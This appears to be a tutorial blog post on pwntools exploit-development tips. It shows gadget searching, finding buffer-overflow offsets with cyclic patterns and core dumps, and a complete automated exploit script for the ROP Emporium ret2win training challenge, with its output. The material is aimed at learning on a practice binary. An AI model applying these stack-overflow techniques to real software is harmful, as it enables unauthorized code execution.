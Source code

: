 ```yaml
---
title: "Pwntool Tips 3"
date: 2020-01-04T19:13:37-05:00
toc: false
images:
tags:
  - pwntools
  - exploitdev
---
```


Before we start, in part 2 of the series, I demonstrated  finding instructions within a binary
using `elf.search`. I passed `"\xff\e4"` in order to find the address of some `jmp rsp`
instructions. Turns out, just can also use the mnemonics if we pass them through `asm()` first.

```python

""" From yesterday """
In [2]: e = ELF('pwnable')
In [3]: next(e.search("\xff\xe4"))
Out[3]: 159281

""" Alternate way, with mnenonic """
In [2]: searcher = e.search( asm("jmp rsp") )
In [3]: searcher.next()
Out[3]: 159281


```

# Auto-Find Your Offset with Cyclic and Corefiles

The `cyclic` function will generate a deterministic sequence called a 
[De Bruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
sequence. Since the pattern is always the same, we can take the sequence at the fault address and
search for the offset within that sequence.

`Pwntools` also knows how to deal with core dumps.

From the [Docs](http://docs.pwntools.com/en/stable/elf/corefile.html#using-corefiles-to-automate-exploitation):

> Core dumps are extremely useful when writing exploits, even outside of the normal act of debugging things.


We're going use the first 64-bit challenge from 
[ROP Emporium](https://ropemporium.com/challenge/ret2win.html).
The challenges here are specifically geared toward practicing ROP techniques, so they tell you
outright that the overflow length for every challenge is 40. We'll use the known-good value to
test with.

To automatically find the offset:

```python
In [1]: from pwn import *
In [2]: context.clear(arch="amd64")
In [3]: io = process('./ret2win')
In [4]: prompt = io.recv()
In [5]: io.sendline(cyclic(128, n=8)
In [6]: io.wait()
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 1108287)

In [7]: c = Core("./core.ret2win.1108287")
[x] Parsing corefile...
    Arch:      amd64-64-little
    RIP:       0x400810
    RSP:       0x7ffcef76b438
    Fault:     0x6161616161616166

In [8]: cyclic_find(c.fault_addr, n=8)
Out[8]: 40
```

Here's what a fully automated exploit might look like using what we've learned from the past 3
posts.

```python
from pwn import *

def overflow(io, data):
    io.recv()
    io.sendline(data)

exe = "ret2win"
context.arch="amd64"
io = process(exe)

pattern = cyclic(100, n=8)
overflow(io, pattern)
io.wait()

offset = cyclic_find( io.corefile.fault_addr, n=8 )

elf = ELF(exe)
payload = fit({ offset: elf.sym.ret2win })

io = process(exe)
overflow(io, payload)
success( io.recvline()  )
```

Output:

```sh
dev ❯❯ python exp.py
[+] Starting local process './ret2win': pid 1248672
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 1248672)
[+] Parsing corefile...: Done
    Arch:      amd64-64-little
    RIP:       0x400810
    RSP:       0x7ffcf9977c28
    Fault:     0x6161616161616166
[+] Starting local process './ret2win': pid 1248677
[+] b"Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}\n"
```
